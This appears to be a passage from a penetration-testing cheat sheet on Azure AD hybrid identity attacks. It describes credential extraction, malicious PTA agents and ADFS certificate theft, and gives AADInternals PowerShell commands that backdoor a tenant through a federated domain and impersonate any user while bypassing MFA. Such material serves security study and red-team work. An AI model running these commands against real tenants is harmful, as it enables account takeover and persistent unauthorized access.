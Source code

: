 [Impersonating o365 Users avec Mimikatz](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)



## Hybrid Identity - On-Prem to Cloud

Microsoft recommends joining the Azure AD Connect server to the on-prem AD. This has significant implications for security because it means that any persistence mechanisms used for on-prem (such as Golden Ticket, Silver Ticket, ACL Backdoors, and others) that provide either Domain Admin (DA) on-prem or local admin on the Azure AD Connect server can be leveraged to gain Global Administrator (GA) access on Azure AD on demand.

**Exploitation Scenarios**

1. **Password Hash Synchronization (PHS)**
- **Action:** Extract credentials.
- **Impact:** With DA on-prem or local admin on the Azure AD Connect server, extract the credentials of the MSOL account used for PHS.

2. **Pass-Through Authentication (PTA)**
- **Action:** Install the PTA agent.
- **Impact:** With DA on-prem or local admin on the Azure AD Connect server, install a malicious PTA agent to verify authentications for any synced user, bypassing the need for the correct password.

3. **Federation**
- **Action:** Extract the token-signing certificate from the ADFS server.
- **Impact:** With DA on-prem, extract the ADFS token-signing certificate, allowing the creation of valid SAML tokens to authenticate as any user in Azure AD.


## Federation - Trusted Domain

> Backdoor Access with Global Administrator Privileges

If we have Global Administrator (GA) privileges on a tenant, we can add a new domain (must be verified), configure its authentication type to Federated, and configure the domain to trust a specific certificate (`any.sts` in the below command) and issuer. 

Using AADInternals:
```powershell
ConvertTo-AADIntBackdoor -DomainName cyberranges.io
```

Get the `ImmutableID` of the user that we want to impersonate. Using the Msol module:
```powershell
Get-MsolUser | select userPrincipalName,ImmutableID
```

Access any cloud app as the user:
```powershell
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```

## Federation - Token Signing Certificate
